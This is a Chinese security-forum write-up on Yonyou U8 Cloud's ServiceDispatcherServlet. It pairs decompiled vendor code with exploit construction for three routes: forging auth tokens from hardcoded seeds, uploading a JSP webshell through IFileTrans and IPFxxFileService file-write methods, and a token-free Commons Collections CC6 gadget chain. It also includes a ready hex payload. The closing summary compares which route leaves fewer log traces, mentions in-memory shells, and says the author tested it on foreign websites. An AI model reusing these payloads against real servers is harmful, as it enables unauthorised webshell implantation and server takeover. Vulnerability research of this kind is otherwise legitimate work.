# 用友U8Cloud ServiceDispatcherServlet 三种反序列化方式和深入利用研究-先知社区

> **来源**: https://xz.aliyun.com/news/18996  
> **文章ID**: 18996

---

# 用友 **ServiceDispatcherServlet**

# 1、前言

在最近的安全通报中，用友 U8 Cloud 曝光出若干能被链式利用的缺陷：一类是 **ServiceDispatcherServlet** 的反序列化入口，但其中有很多条链路可允许攻击者将文件写入应用可执行或可访问的位置或者执行命令。这类问题常被组合成“先得执行权限，再落地 webshell”的攻击链。本章将从原理出发，分层解释有回显与无回显场景的差别，其次对其审计搭建测试代码进行思路讲解。提供学习使用

## 2、场景搭建（前提有U8源码情况）

建立一个能够使用pom的java项目，jdk版本不要太高，最好能和U8 对应，再创建一个Main即可（如果不会下面会有github地址可以下载）



拿到一份U8的源码，首先做的是寻找所有的jar包，按需导入比如，fw.jar,coommons的,基本的u8 jar等等，如果是在不知道选哪些，就搜索全部的jar全部导入，再然后去导入一份ysoserial的jar做后期反序列化使用



### 1、关于 U8 cloud 所有版本存在ServiceDispatcherServlet 反序列化(2025-08-29)

<https://security.yonyou.com/#/noticeInfo?id=720>



漏洞描述：攻击者通过利用易受攻击的代码，绕过鉴权并实现任意文件上传，造成严重的系统损害。

#### 1、漏洞分析

既然是分析，那我们从分析的角度出发，先去看是否有公开的补丁，做一个简单的信息收集，官网给的补丁，有点类似于它给你编译好了，你贴进去就是修复了，所以我们要做的是，对比一下两个补丁的区别，我们研究的是ServiceDispatcherServlet ，所以优先找的是ServiceDispatcherServlet 里面的。但会发现为什么一个关于ServiceDispatcherServlet 的都没有？都是关于下面这些的呢？



回到前面描述地方，"绕过鉴权" 所以通过修复的补丁和描述，推测出我们是否可以绕过token这个东西？这个问题留着我们遇见的时候来探索。

既然没有找到修复ServiceDispatcherServlet 的，那我们可以去寻找一下ServiceDispatcherServlet 这个的映射文件什么

基本上这种项目的映射文件都存储在web.xml当中





这边也是成功的找到了文件，会发现服务是CommonServletDispatcher，但初始化了ServiceDispatcher作为参数,最外面的CommonServletDispatcher只是一个壳子

```
public void init() throws ServletException {
        String targetname = null;
        Throwable cause = null;
        this.log.debug("ServletDispatcher.initing......");
        if ((targetname = this.getInitParameter("service")) != null) {
            try {
                Class handlerClass = Class.forName(targetname);
                this.serviceHandler = (ServiceHandler)handlerClass.newInstance();
            } catch (InstantiationException var4) {
                cause = var4;
            } catch (IllegalAccessException var5) {
                cause = var5;
            } catch (ClassNotFoundException var6) {
                cause = var6;
            }
        }

        if (this.serviceHandler == null) {
            this.log.error("there is not a concrete ServerHandler", (Throwable)cause);
            throw new ServletException("there is not a concrete ServerHandler");
        } else {
            this.log.debug("ServletDispatcher.inited");
        }
    }

    public void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        long time = System.currentTimeMillis();
        if (Profiler.log.isInfoEnabled()) {
            Profiler.log.info("ServletDispatcher is starting to service......");
        }

        response.setContentType("application/x-java-serialized-object");
        boolean var12 = false;

        InvocationInfo info;
        String svc;
        label118: {
            try {
                var12 = true;
                this.serviceHandler.execCall(request, response);
                var12 = false;
                break label118;
            } catch (Throwable var13) {
                this.log.error("Remote Service error", var13);
                var12 = false;
            } finally {
                if (var12) {
                    if (Profiler.log.isInfoEnabled()) {
                        InvocationInfo info = InvocationInfoProxy.getInstance().get();
                        String svc = "";
                        if (info != null) {
                            svc = info.getServicename() + "." + info.getMethodName();
                        }

                        Profiler.log.info(endDoServiceMsg.format(new Object[]{svc, System.currentTimeMillis() - time}));
                    }

                    InvocationInfoProxy.getInstance().set((InvocationInfo)null);
                }
            }

            if (Profiler.log.isInfoEnabled()) {
                info = InvocationInfoProxy.getInstance().get();
                svc = "";
                if (info != null) {
                    svc = info.getServicename() + "." + info.getMethodName();
                }

                Profiler.log.info(endDoServiceMsg.format(new Object[]{svc, System.currentTimeMillis() - time}));
            }

            InvocationInfoProxy.getInstance().set((InvocationInfo)null);
            return;
        }

        if (Profiler.log.isInfoEnabled()) {
            info = InvocationInfoProxy.getInstance().get();
            svc = "";
            if (info != null) {
                svc = info.getServicename() + "." + info.getMethodName();
            }

            Profiler.log.info(endDoServiceMsg.format(new Object[]{svc, System.currentTimeMillis() - time}));
        }

        InvocationInfoProxy.getInstance().set((InvocationInfo)null);
    }

    public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        this.doGet(request, response);
    }
```

这一部分，请求post会传递到get，这边没有反编译过来，但可以测试，它是直接传入到了ServiceDispatcher，这边可以看见，在init()的时候创建了ServiceDispatcher对象，在doPost的时候请求的是doGet，doGet的时候明确的确定了响应包是Java 序列化流，再去调this.serviceHandler.execCall(request, response);

流程图大概是这样的

Client → POST /ServiceDispatcherServlet

→ 映射CommonServletDispatcher → doPost → doGet → serviceHandler.execCall(request, response) → ServiceDispatcher.execCall() ├─ 反序列化 request 输入流 (NetObjectInputStream) ├─ 得到 InvocationInfo (服务名、方法、参数) ├─ 执行目标方法 └─ 把 Result 对象序列化写回 response

好了，我们知道它是怎么走的了，就继续往下来到我们的ServiceDispatcher

##### 1、ServiceDispatcher 如何反序列化（修复前和修复后）？

有了解过的可能知道在ServiceDispatcher 之前有一个版本是没有token校验的，也就是2025-04-03的时候公布的

<https://security.yonyou.com/#/noticeInfo?id=683>

但在这个版本增加了一个token的校验，我们先过一下没修复的时候

###### 1、修复前(粗略)->可以使用第三个反序列化



没修复的时候，只需要去反序列化一个NetObjectInputStream准备着，但是它有一个很容易出错的要求



在读取字节流的情况下会读取4 字节长度前缀，4 个字节 → 对象数据长度，再根据长度来读取字节数组，如果这个不达标就会出现EOF异常导致无法执行

```
private static byte[] serializeNetObjInfo(NetObjectOutputStream NetObj) throws IOException {
        NetObjectOutputStream nos = NetObj;
        byte[] payloadBytes = bos.toByteArray();
        int len = payloadBytes.length; 
        ByteArrayOutputStream out = new ByteArrayOutputStream(4 + len);
        out.write((len >>> 24) & 0xFF);
        out.write((len >>> 16) & 0xFF);
        out.write((len >>> 8) & 0xFF);
        out.write((len) & 0xFF);
        out.write(payloadBytes);
        return out.toByteArray();
    }
```

这个是检查是否符合要求，作为一个检查的使用吧。最后就是使用你想生成的Object->NetObjectOutputStream.write进去再发送过去即可

###### 2、修复后（重点）



因为用友有一个EJB这个东西，所以我们看不见jndi请求后的源码，在通过前面反序列化数据后直到this.invokeBeanMethod这里



初步发现module这里是我们可以控制的，所以module是为空，第二个参数是我们要加载的模块，但第二个是怎么加载的？Context又是什么？



这段代码很长这个，主要讲一下lookup里面做了什么，它是一个服务查找的有一个自定义的**ServiceCache** 的缓存存储的里面有很多对象，如果有遇见新的模块，就先去这里面找，如果没有找到再去**JNDI** 里面找，如果是ServiceCache里面的就会创建一个EJB代理对象返回一个对象回去，这也就是我们这部分的重点。虽然这部分看不见源代码，但可以找到相应的信息。

```
HRPubEJBEjbBean这里是进行添加到缓存，也就是bean对象的注入

public class  HRPubEJBEjbBean extends BusinessObject{
    
        private Object iDefDocListForHr;
        private Object iCorpDeptRef;
        private Object iAttachment;
        private Object iLock;
        private Object iHrBillCode;
        private Object iDbTool;
        private Object iAlarmSetdict;
        private Object iDefdocUpgrade;
        private Object iDumorgRef;
        private Object iExcelDisplayBuilder;
        private Object iExcelViewMain;
        private Object iFileTrans;
        private Object iFormulaSet;
        private Object iGlobaldata;
        private Object iHrPf;
        private Object iExpandTool;
        private Object iJdbcSessionSample;
        private Object iNoticeclass;
        private Object iParDef;
        private Object iParValue;
        private Object iHrPara;
        private Object iPEInterface;
        private Object iPersistenceUpdate;
        private Object iPsnCombinTool;
        private Object iPsnProp;
        private Object iPubAlarm;
        private Object iPubDoc;
        private Object iPubRefext;
        private Object iRemoteFile;
        private Object iResourceBundle;
        private Object iRptSetdict;
        private Object iSetdict;
        private Object iSystemDictHelper;
        private Object iTableOp;
        private Object iTempUpgrade;
        private Object iTrmItem;
        private Object iUploadConfig;
        private Object iRolepf;
        private Object iDynamicHRPsnGroup;
        private Object iFuncreg;
        private Object iFunctable;
        private Object ihrtrnQBS;
        private Object iListItemSet;
        private Object iCustomizationItf;
        private Object iHrDataIOImpl;
        private Object iServiceHome;
        private Object iCMInterface;
        private Object iHrcpService;
        private Object iHRNewInstallAdjust;
        private Object iGenerateRTFDocument;
}
```

至此看不见源码也没办法进入这些一个个判断，但可以通过以往的漏洞 esnserver 的任意文件上传，随便找个以前的poc出来

{"invocationInfo":{"ucode":"123","dataSource":"U8cloud","lang":"en"},"method":"uploadFile","className":"nc.itf.hr.tools.IFileTrans","param":{"p1":"xxxx","p2":"webapps/u8c\_web/test123.jsp"},"paramType":["p1:[B","p2:java.lang.String"]}

会发现和我们目前想反序列化的内容有点类似，但我们只需要取后面半截





根据现在版本的invocationInfo分析判断发现一个比较适合我们的构造方法

```
File file=new File("D:\xxxx\shell.jsp");
        byte[] fileBytes=new byte[(int) file.length()];
        try(FileInputStream fis=new FileInputStream(file)){
            fis.read(fileBytes);
        }
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ZipOutputStream zipout=new ZipOutputStream(baos);
        ZipEntry entry=new ZipEntry("compressed");
        zipout.putNextEntry(entry);
        zipout.write(fileBytes);
        zipout.closeEntry();
        zipout.close();
        byte[] compressed=baos.toByteArray();
        baos.close();        

Class<?>[] paramTypes = new Class<?>[]{byte[].class, String.class};
        Object[] params = new Object[]{compressed, "webapps/u8c_web/test1234.jsp"};
InvocationInfo invInfo = new InvocationInfo(
                "nc.itf.hr.tools.IFileTrans",
                "uploadFile",
                paramTypes,
                params
        );
        
结合上面的poc按需构造出来是这样的，引入自己的shell.jsp文件即可
```

好了，我目前有了反序列化的对象了，可以进行测试了

经过一系列测试发现不管传入的对象是怎样的，都会先去判断token对不对

```
$$callid=1758609055866-6731 $$thread=[http-bio-192.168.43.3-8088-exec-25] $$host=192.168.43.80 $$userid=#UAP# $$ts=2025-09-23 14:31:14 $$remotecall=[nc.bs.framework.comn.serv.ServiceDispatcher] $$debuglevel=ERROR  $$msg=token error!, please login!ncasa.itsasf.hr.toolsasas.sasaIFissaleTrans
nc.vo.pub.BusinessRuntimeException: token error!, please login!ncasa.itsasf.hr.toolsasas.sasaIFissaleTrans
    at nc.bs.framework.server.token.TokenUtil.vertifyTokenIllegal(TokenUtil.java:155)
    at nc.bs.framework.server.token.TokenUtil.vertifyToken(TokenUtil.java:144)
    at nc.bs.framework.comn.serv.ServiceDispatcher.execCall(ServiceDispatcher.java:173)
    at nc.bs.framework.comn.serv.CommonServletDispatcher.doGet(CommonServletDispatcher.java:75)
    at nc.bs.framework.comn.serv.CommonServletDispatcher.doPost(CommonServletDispatcher.java:95)
```

记得修复前没有token这样的检验，但这个修复后就加了，所以我们去看看token如何检验的？

```
private static final String ipFilePath = "/ierp/bin/token/trustIPList.conf";
    private static final String srvFilePath = "/ierp/bin/token/trustServiceList.conf";
    private static final String seedFilePath = "/ierp/bin/token/tokenSeed.conf";
    private Set<String> trustIPList;
    private Set<String> trustServiceList;
    private byte[] tokenSeed;
    private String defTokenSeedStr;

    public static TokenUtil getInstance() {
        return TokenUtil.TokenUtilHolder.instance;
    }

    private TokenUtil() {
        this.trustIPList = new HashSet();
        this.trustServiceList = new HashSet();
        this.defTokenSeedStr = "232asfdsjkfmsdgldfg";
        File ipListFile = new File(RuntimeEnv.getInstance().getNCHome(), "/ierp/bin/token/trustIPList.conf");
        FileInputStream fis = null;

        try {
            Properties prop = new Properties();
            fis = new FileInputStream(ipListFile);
            prop.load(fis);
            Map tem = new HashMap(prop);
            this.trustIPList = tem.keySet();
        } catch (Exception var70) {
            Logger.error("file error:/ierp/bin/token/trustIPList.conf", var70);
            if (fis != null) {
                try {
                    fis.close();
                } catch (IOException var65) {
                    Logger.error(var65);
                }
            }
        } finally {
            if (fis != null) {
                try {
                    fis.close();
                } catch (IOException var61) {
                    Logger.error(var61);
                }
            }

        }

        File serviceList = new File(RuntimeEnv.getInstance().getNCHome(), "/ierp/bin/token/trustServiceList.conf");
        FileInputStream fis1 = null;

        try {
            Properties prop1 = new Properties();
            fis1 = new FileInputStream(serviceList);
            prop1.load(fis1);
            Map tem1 = new HashMap(prop1);
            this.trustServiceList = tem1.keySet();
        } catch (Exception var68) {
            Logger.error("file error:/ierp/bin/token/trustServiceList.conf", var68);
            if (fis1 != null) {
                try {
                    fis1.close();
                } catch (IOException var64) {
                    Logger.error(var64);
                }
            }
        } finally {
            if (fis1 != null) {
                try {
                    fis1.close();
                } catch (IOException var62) {
                    Logger.error(var62);
                }
            }

        }

        File seedFile = new File(RuntimeEnv.getInstance().getNCHome(), "/ierp/bin/token/tokenSeed.conf");
        FileInputStream fis2 = null;
        String tokenSeedStr = "";

        try {
            Properties prop = new Properties();
            fis2 = new FileInputStream(seedFile);
            prop.load(fis2);
            tokenSeedStr = (String)prop.get("tokenseed");
        } catch (Exception var66) {
            Logger.error("file error:/ierp/bin/token/tokenSeed.conf", var66);
            if (fis2 != null) {
                try {
                    fis2.close();
                } catch (IOException var63) {
                    Logger.error(var63);
                }
            }
        } finally {
            if (fis2 != null) {
                try {
                    fis2.close();
                } catch (IOException var60) {
                    Logger.error(var60);
                }
            }

        }

        if (!StringUtil.isEmptyWithTrim(tokenSeedStr)) {
            this.tokenSeed = tokenSeedStr.getBytes();
        } else {
            this.tokenSeed = this.defTokenSeedStr.getBytes();
        }

    }
```

从文件 /ierp/bin/token/trustIPList.conf 读取 IP 列表，后面和 IP 列表类似，读取可信服务名，最后文件中 tokenseed 配置就是 Token 种子，如果文件为空或者是缺失，就会使用defTokenSeedStr->232asfdsjkfmsdgldfg，所以我们知道这个是默认情况有两个种子，一个是tokenseed 里面默认的种子，一个是为空的情况下的defTokenSeedStr

再去看看加密方式

```
public String genToken(String userCode) {
        byte[] md5 = this.md5(this.getTokenSeed(), userCode.getBytes());
        return MD5Util.byteToHexString(md5);
    }
    private byte[] md5(byte[] key, byte[] tokens) {
        MessageDigest md = null;

        try {
            md = MessageDigest.getInstance("SHA-1");
            md.update(tokens);
            md.update(key);
            return md.digest();
        } catch (Exception var5) {
            throw new FrameworkRuntimeException("md5 error", var5);
        }
    }
    public static String byteToHexString(byte[] tmp) {
        char[] str = new char[32];
        int k = 0;

        for(int i = 0; i < 16; ++i) {
            byte byte0 = tmp[i];
            str[k++] = hexdigits[byte0 >>> 4 & 15];
            str[k++] = hexdigits[byte0 & 15];
        }

        String s = new String(str);
        return s;
    }

按照这三个方式进行加密这就获得了我们最终的token
```

其中tokenseed 文件中是：tokenseed=ab7d823e-03ef-39c1-9947-060a0a08b931 如果文件不存在的情况下是232asfdsjkfmsdgldfg，所以我们可以准备两组token

在上面审查的时候我们发现InvocationInfo中有一个关于token的参数我们设置进去

invInfo.setToken(genToken(userCode));

而后我们再去看检验的方式

```
private void vertifyTokenIllegal(String token, String service) {
    if (StringUtil.isEmptyWithTrim(token)) {
        throw new BusinessRuntimeException("invalid orginal token(null), please login!" + service);
    } else {
        String userCode = InvocationInfoProxy.getInstance().getUserCode();
        String curToken = this.genToken(userCode);
        if (!curToken.equalsIgnoreCase(token)) {
            throw new BusinessRuntimeException("token error!, please login!" + service);
        }
    }
}
```

这里我们发现刚刚报错的地方了、

```
String userCode = InvocationInfoProxy.getInstance().getUserCode();
    String curToken = this.genToken(userCode);
    先去拿用户的Code然后比对
   //往下走
return RuntimeEnv.getInstance().isThreadRunningInServer() ? this.getInvocationInfo().getUserCode() : ClientInvocationInfo.getClientInvocationInfo().getUserCode();
//如果当前线程在服务端运行 → 从服务端上下文取 userCode。
//如果当前线程在客户端运行 → 从客户端上下文取 userCode。

    通过调用InvocationInfoProxy.getInstance().getUserCode();发现没登录情况下默认是#UAP# UserCode
//客户端的默认是#UAP#
   this.userDataSource = System.getProperty("UserDataSource", "U8cloud");
            this.corpCode = this.getSysProperty("UserPKCorp", "0001");
            this.userCode = this.getSysProperty("UserCode", "#UAP#");
            this.date = System.getProperty("userlogintime");
//服务端
如果没有登录或者注册，那就默认编码
//#UAP#
```

经过上面，我们可以定下几个东西，一个是用户的code是#UAP#，其次token种子有两种一个是默认的ab7d823e-03ef-39c1-9947-060a0a08b931，一个是232asfdsjkfmsdgldfg

一股脑丢进我们之前所看的InvocationInfo当中去

```
invInfo.setUserCode(userCode);
invInfo.setToken(genToken(userCode));
```

至此就完成了这次的全过程。

下面加密后的hex修改了文件名只会显示h1的无危害界面，仅提供测试使用，使用一次后会自动删除，仅在本机使用。

000002A4727189017BB903DB14FB963164BADE124A6345ABAFA416D11A7798A49640E0CC877DB0C28918805C6B48125E6DA6CF72C3CD2DDC4CD2082A64824BFC9AD7258230AF01CF85A7FB922C503467DBA464D978F8E5676F9DA6D01D66740F56563D4FC4A87A448B5C97FD79A132536BC60DB0F92A35CA69A0BE1CCD8718C454F232340CAB79A56C5B27B40E407D8860E24CBFC6AE3D5510143362A0F32A84C1FBFE0500B150247D81E8121A2F28546D4E6B6397281A68F6463D1584FFCD47CF3D41A0F215FA26E8608C8B0B5934B676FBCD5528100E78AD36ACDC294259F6419AAB7F32E95DA2C964B1621A92F69B4B0B8A60C09E133081360BBC30D5787F09FBCE3091A47D04ADDB0C6D6F476A4805A18BDECCC6EB98419AAB7F32E95DA269FAF9A52D50CF0E15AE12B8233AA99A7ECEEBE546F32008B0F3DC4873DAF5AE3B43A917E0F0997F8439E013062DFEF791999F1D4400F803FCCDB536D115D65345B38BDF3F0E2CC9DD6D3CFC2CC47393F66419C04B7FDFDA720DE629622BAF5CCD5F3C741E0A32D71CEEE16E7257B184EC223227B187FFC1D0820D1F8DD7BA4449FF03F2EF82B8BC78F3BA08F6A5997AD2D17DEC2822D582C704D9AD13CB2B94571A77F75A417B24CC48972EBD58EB96C2FF7C9BF9283B75E3E5583E423EF39DE86F4BF826FCF5C5825B67B9FBC45B4EFB4CAEB861BE3B299CE27592E65E153DCECF23023A3DDC26679DCBB70C9C24AE5551D87830829EA52DA8F16044F4AC8600B8B6C8E1DBB83FD8C64E76F6F6E84569557618B97874775FC02E5464B42F8FED830820C6644945598B0397E0349344B6710B2443285290F902D6C4EAE2CBEFFF2713A21B7385658A0E2CEDEE29DECF7073747CCFD9DC29D8A7E5079D53A229F90ECD797EFC998CED073408D87EF4A0FBD7EE4294E5569CA888ECD5442326A8FD3E164FA4B25A5B

##### 2、ServiceDispatcher 反序列化->IPFxxFileService

IPFxxFileService经过upm文件找到了文件所属地方，这个漏洞和上述的漏洞有点类似的地方



最终在...\modules\uapeai\META-INF\lib\uapeaipfxx.jar!\
c\bs\pfxx\pub\PFxxFileServiceImpl.class路径找到



抓重点，找我们需要的

```
public File writeDocToXMLFile(byte[] filedata, String filename) throws BusinessException {
        try {
            return FileUtils.writeBytesToFile(filedata, filename);
        } catch (Exception var4) {
            Logger.error("Writing File error!", var4);
            throw new BusinessException("Writing File error!");
        }
    }
//作用：把字节数组写入指定路径的文件。

   public String writeMiddleFile(byte[] filedata, String filePath, String fileName, String billId) throws BusinessException {
        return FileConfigInfoWriteFacade.writeMiddleFile(filedata, filePath, fileName, billId);
    }

//写中间文件（调用外部 facade）
    public void writeInputStreamData(byte[] contents, String fileName) {
        GZIPOutputStream outStream = null;

        try {
            File file = new File(fileName);
            File pFile = file.getParentFile();
            if (!pFile.exists()) {
                pFile.mkdirs();
            }

            outStream = new GZIPOutputStream(new FileOutputStream(file));
            outStream.write(contents);
            Logger.debug(NCLangResOnserver.getInstance().getStrByID("uffactory_hyeaa", "UPPuffactory_hyeaa-000522", (String)null, new String[]{file.getAbsolutePath()}));
        } catch (Exception var13) {
            Logger.error("往服务器上写输入流文件出现异常!", var13);
            throw new BusinessRuntimeException("往服务器上写输入流文件出现异常!");
        } finally {
            if (outStream != null) {
                try {
                    outStream.close();
                } catch (IOException var12) {
                }
            }

        }

    }
//把 contents 压缩成 GZIP 文件写入指定路径。


 public byte[] getHomeFileByte(String[] modules) throws IOException {
        String homepath = RuntimeEnv.getInstance().getNCHome();
        String path = homepath + File.separator + "pfxx" + File.separator + "demodata";
        return FileUtils.getByteFromHome(path, modules);
    }
//读取 NCHome/pfxx/demodata 下的文件。


    public byte[] getServerFile(String relativePath) throws BusinessException {
        try {
            if (StringUtil.isEmpty(relativePath)) {
                throw new BusinessException("文件路径为空!无法取得服务端的文件!");
            } else {
                if (!relativePath.startsWith("/")) {
                    relativePath = "/" + relativePath;
                }

                String filename = RuntimeEnv.getInstance().getNCHome() + relativePath;
                File file = new File(filename);
                if (file.exists()) {
                    ByteArrayOutputStream out = null;

                    try {
                        out = FileUtils.getByteStreamFromFile(file);
                    } catch (Exception var6) {
                        throw new PfxxException(NCLangResOnserver.getInstance().getStrByID("uffactory_hyeaa", "UPPuffactory_hyeaa-000003"));
                    }

                    return out.toByteArray();
                } else {
                    throw new PfxxException(NCLangResOnserver.getInstance().getStrByID("pfxx", "UPPpfxx-000206") + filename);
                }
            }
        } catch (PfxxException var7) {
            throw new PfxxException(NCLangResOnserver.getInstance().getStrByID("pfxx", "UPPpfxx-000207") + var7.getMessage());
        }
    }
//根据传入 relativePath 拼接到 NCHome 后，返回文件字节


    public Document createSchemeDocument(String account, String billname, String exsystemcode) throws BusinessException {
        String errorinfo;
        try {
            ISchemeCreator schemeCreator = new SchemeCreator(account, billname, exsystemcode);
            Document schemedoc = schemeCreator.generate();
            Logger.info(NCLangResOnserver.getInstance().getStrByID("uffactory_hyeaa", "UPPuffactory_hyeaa-000004"));
            return schemedoc;
        } catch (PfxxException var6) {
            errorinfo = NCLangResOnserver.getInstance().getStrByID("uffactory_hyeaa", "UPPuffactory_hyeaa-000002");
            throw new PfxxException(errorinfo, var6);
        } catch (Exception var7) {
            errorinfo = NCLangResOnserver.getInstance().getStrByID("uffactory_hyeaa", "UPPuffactory_hyeaa-000003");
            throw new PfxxException(errorinfo, var7);
        }
    }
//生成 XML Document（业务逻辑）


    public byte[] getServerPropFile() throws BusinessException {
        try {
            String filename = PfxxServerSidePathVocabulary.XMLEDITOR_PATH;
            File file = new File(filename);
            if (file.exists()) {
                ByteArrayOutputStream out = null;

                try {
                    out = FileUtils.getByteStreamFromFile(file);
                } catch (Exception var5) {
                    throw new PfxxException(NCLangResOnserver.getInstance().getStrByID("uffactory_hyeaa", "UPPuffactory_hyeaa-000003"));
                }

                return out.toByteArray();
            } else {
                throw new PfxxException(NCLangResOnserver.getInstance().getStrByID("pfxx", "UPPpfxx-000206") + filename);
            }
        } catch (PfxxException var6) {
            throw new PfxxException(NCLangResOnserver.getInstance().getStrByID("pfxx", "UPPpfxx-000207") + var6.getMessage());
        }
    }
//直接读取固定路径的配置文件。
```

所以我们拿到那么多方法，其实可以挨个挨个试试，挨个研究一下看看是否有利用空间

明眼一看writeDocToXMLFile 可以直接写入文件，只需要字节流和文件名，我们再看看其他的，先暂定它

```
public static String writeMiddleFile(byte[] filedata, String filePath, String fileName, String billId) throws BusinessException {
    if (StringUtil.isEmptyWithTrim(fileName)) {
        fileName = UniqueIDGenerator.generate("PFXX", 20, "xx", '0');
    }

    fileName = fileName.toLowerCase();
    if (fileName.indexOf(".xml") > 0) {
        fileName = fileName.substring(0, fileName.lastIndexOf(".xml"));
    }

    String relfilename;
    if (billId == null) {
        relfilename = fileName + ".xml";
        fileName = filePath + relfilename;
    } else {
        relfilename = fileName + "_" + billId + ".xml";
        fileName = filePath + relfilename;
    }

    try {
        FileUtils.writeBytesToFile(filedata, fileName);
        return relfilename;
    } catch (IOException var6) {
        Logger.error("Writing File error!", var6);
        throw new BusinessException("Writing File error!");
    }
}
```

可惜了，最后强制以xml为结尾，不能作为拼接文件名。

writeInputStreamData->有漏洞点，但不是适合我们利用的，存在覆盖系统文件，缺点是只能覆盖gzip的文件有点鸡肋，继续看

getHomeFileByte->根据审计来看，是把路径下的多个文件，打包成zip返回回来（后期测试后脚本丢github）目前不是我们想要的

writeMiddleFile->byte[] filedata, String filePath, String fileName, String billId 需要这几个参数，前面几个比较明白，最后一个billId不确定，我们接着看

getServerFile->有可能可以造成->任意路径 → 文件内容字节数组。

createSchemeDocument->生成xml文件也不是我们想要的

getServerPropFile直接没用

回到writeDocToXMLFile

```
writeDocToXMLFile


  public File writeDocToXMLFile(byte[] filedata, String filename) throws BusinessException {
        try {
            return FileUtils.writeBytesToFile(filedata, filename);
        } catch (Exception var4) {
            Logger.error("Writing File error!", var4);
            throw new BusinessException("Writing File error!");
        }
    }
```

根据这段代码分析想办法组成payload

写入的地方在XMLUtil.printDOMTree(writer, newdoc, 0, "UTF-8");

根据这里我们知道，我们需要两个类型的一个是byte[]一个是String，所以构造

```
Class<?>[] paramTypes = new Class<?>[]{byte[].class, String.class};
//看着，我们需要一个byte的，这个是jsp内的内容，所以我们读取File file=new File("shell.jsp")写好的jsp界面转成Byte
File file=new File("shell.jsp");
byte[] fileBytes = Files.readAllBytes(file.toPath()); //转成byte
Object[] params = new Object[]{fileBytes, "webapps/u8c_web/admin123456.jsp"};
//而后引入
InvocationInfo invInfo = new InvocationInfo(
                "nc.itf.uap.pfxx.IPFxxFileService",
                "writeDocToXMLFile",
                paramTypes,
                params
        );
//在根据ServiceDispatcher 的机制绕过token
//至此就完成了
```



##### 3、ServiceDispatcher 反序列化 C6链分析使用

为什么会有这个？这一部分的好处是不用验证token直接通过readObject下面进行反序列化，如果你前面这一部分认真看了，这部分应该很好理解，我们回到

invInfo = (InvocationInfo) NetObjectInputStream.readObject(bis, streamRet);

这一部分代码实际上就是把二进制流交给 U8 的自定义反序列化器 **NetObjectInputStream** 去重建一个 **InvocationInfo** 对象；在重建过程中会对流里的每个类描述进行加载/实例化，并在必要时执行类的反序列化回调（**readObject** / **readResolve** / 动态代理初始化等）

所以根据上面的分析，这部分构造，这部分我们不需要token，也不需要去找什么服务，只需要传入参数里面有恶意对象即可

```
Object payload = new CommonCollections().CC6_TemplatesImpl(Evil.class.getName());
//一定要去看Common版本！！！！！
 Class<?>[] paramTypes = new Class<?>[]{Object.class, String.class};
        Object[] params = new Object[]{payload, ""};
        InvocationInfo invInfo = new InvocationInfo(
                "aaa",
                "aaa",
                paramTypes,
                params
        );
//这部分即是我们需要的
```

#### 总结：

第一二个在使用过程中，只会留下一些log，但不会出现很明显的异常信息，要文件落地。第三个使用会有报错日志出现，好处留痕的概率减少，忽略这个，就可以写内存码了。其实还有第一种，经过tomcat的链进行回显的，但目前测试国外的网站，目前没有回显的，原因没找到，本地环境可以回显。

```
xception in thread "main" org.apache.commons.collections.FunctorException: InvokerTransformer: The method 'newTransformer' on 'class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl' threw an exception
	at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:133)
	at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:158)
	at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:74)
	at org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode(TiedMapEntry.java:121)
	at java.util.HashMap.hash(HashMap.java:340)
	at java.util.HashMap.readObject(HashMap.java:1419)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1185)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2345)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2236)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1692)
	at java.io.ObjectInputStream.readArray(ObjectInputStream.java:2142)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1680)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:508)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:466)
	at nc.bs.framework.common.InvocationInfo.readExternal(InvocationInfo.java:370)
	at java.io.ObjectInputStream.readExternalData(ObjectInputStream.java:2285)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2234)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1692)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:508)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:466)
	at nc.bs.framework.comn.NetObjectInputStream.readObjectOverride(NetObjectInputStream.java:235)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:499)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:466)
	at nc.bs.framework.comn.NetObjectInputStream.readObject(NetObjectInputStream.java:302)
	at org.youkill.ServiceDispatcherServlet3.main(ServiceDispatcherServlet3.java:43)
Caused by: java.lang.reflect.InvocationTargetException
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:126)
	... 28 more
Caused by: java.lang.NullPointerException
	at com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet.postInitialization(AbstractTranslet.java:375)
	at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:458)
	at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:485)
	... 33 more
```

# 2、漏洞修复

目前根据官方给的文件，是对token进行了验证，其次对文件上传的位置发生了改变，就避免出现在项目当中。

详细可以参考：<https://security.yonyou.com/#/home>

# 3、项目工程文件（修改自己需要的测试方式和目前研究思路）

